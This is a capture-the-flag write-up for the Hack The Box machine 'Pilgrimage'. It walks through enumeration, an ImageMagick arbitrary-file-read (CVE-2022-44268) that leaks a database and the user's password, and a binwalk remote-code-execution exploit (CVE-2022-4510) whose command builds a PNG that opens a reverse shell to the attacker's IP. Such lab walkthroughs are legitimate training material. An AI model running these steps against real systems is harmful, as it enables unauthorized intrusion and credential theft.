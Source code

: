 # Pilgrimage

<p align="center"><img src="assets/Pilgrimage.png" width="400"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Pilgrimage
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
nmap -sC -sV -v 10.10.11.219

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
| http-git:
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration


<details>
<summary>dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://pilgrimage.htb/'

/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
```
</details>

## Foothold

### Web → `emily` 🚩

#### Searching for Vulnerabilities

- the nmap scan shows that a Git repository is accessible at `/.git`, we can download the repository using [GitTools](https://github.com/internetwache/GitTools)
- the `index.php` from the Git repository shows that an SQLite database is being accessed at `/var/db/pilgrimage`
    
    ```php
    $db = new PDO('sqlite:/var/db/pilgrimage');
    ```
- The website can compress uploaded images. A compressed image can be downloaded and analyzed with `identify`:
    
    ```
    identify -verbose image.png
    
    ...
    Version: ImageMagick 6.9.11-60 Q16 aarch64 2021-01-25 https://imagemagick.org
    ```
- The website uses ImageMagick 6.9.11, for which an exploit for **LFI (local file inclusion)** exists *(CVE-2022-44268)*
    - https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

#### Exploitation

1. Generate an image using `pngcrush` to leak contents of SQLite database `/var/db/pilgrimage`:
    
    ```bash
    pngcrush -text a "profile" "/var/db/pilgrimage" image.png
    ```
2. After uploading the generated image, we can download the compressed version of it and analyze it using `identify -verbose`. At the end of the output we can see a large block of hex values:
    
   <p align="center"><img src="assets/identify-output.png" width="400"></p>
4. Decoding the hex block e.g. using CyberChef will reveal credentials:
    - username: `emily`
    - password: `abigchonkyboi123`
5. With these credentials we can login via ssh as `emily`. 🚩

## Privilege Escalation

### `emily` → `root` 🏁

#### Searching for Vulnerabilities

- `ps aux` shows a suspicious process running from root:
    
    ```
    root         690  0.0  0.0   6816  2984 ?        Ss   05:42   0:00 /bin/bash /usr/sbin/malwarescan.sh
    ```
- the script `malwarescan.sh` executes the command `binwalk` on every file that is uploaded under `/var/www/pilgrimage.htb/shrunk/`
- an exploit exists for the version of `binwalk` that enables **RCE (remote command execution)** *(CVE-2022-4510)*:
    - https://www.exploit-db.com/exploits/51249

#### Exploitation

1. We can use the [exploit](https://www.exploit-db.com/exploits/51249) to create a manipulated PNG file containing a RCE for a reverse shell:
    
    ```bash
    python3 51249.py Example.png 10.10.16.3 9002
    ```
2. After uploading `binwalk_exploit.png` in `/var/www/pilgrimage.htb/shrunk/` on the target, we get reverse shell access for root. 🏁
